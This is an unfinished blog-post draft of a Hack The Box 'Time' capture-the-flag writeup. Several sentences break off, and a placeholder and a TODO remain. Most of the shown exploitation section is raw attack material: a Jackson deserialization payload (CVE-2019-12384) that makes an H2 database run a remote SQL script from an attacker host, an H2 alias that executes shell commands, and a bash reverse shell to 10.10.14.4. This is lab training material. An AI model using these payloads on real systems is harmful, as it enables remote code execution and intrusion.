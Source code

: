 ```yaml
---
layout: post
title:  "Hack The Box - Time - Writeup"
date:   2000-01-01 07:00:00 +0200
tags: ["Hack The Box","OSCP"]
---
```

{% assign imgDir="HTB-Time-Writeup" %}

# Introduction
The hack the box machine "Time" is a Medium machine which is included in [TJnull's OSCP Preparation List](). Exploiting this machine requires knowledge in the areas of arbitrary file uploads, PHP comparisions

<img style="Width:550px;" src="/assets/{{ imgDir }}/card.png" alt="HTBCard">

By enumerating the target, it is possible to discover 

# Exploitation
We start by performing an nmap scan by executing `nmap -sS -sC -sV -p- 10.10.10.x`. The `-sS`, `-sC` and `-sV` flags instruct nmap to perform a SYN scan to identify open ports followed by a script and version scan on the ports which were identified as open. The `-p-` flag instructs nmap to scan all the ports on the target. From the scan results, shown below, we can see that 

![nmap](/assets/{{ imgDir }}/nmap.png)


{% highlight none linenos %}
Placeholder
{% endhighlight %}

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.4/inject.sql'"}]

https://github.com/jas502n/CVE-2019-12384

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping -c 10 10.10.14.4')


CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.4/443 0>&1')


<!-- TODO: Vulnerable to both CVE-2019-12384 and CVE-2017-7525? -->

# Privilege Escalation

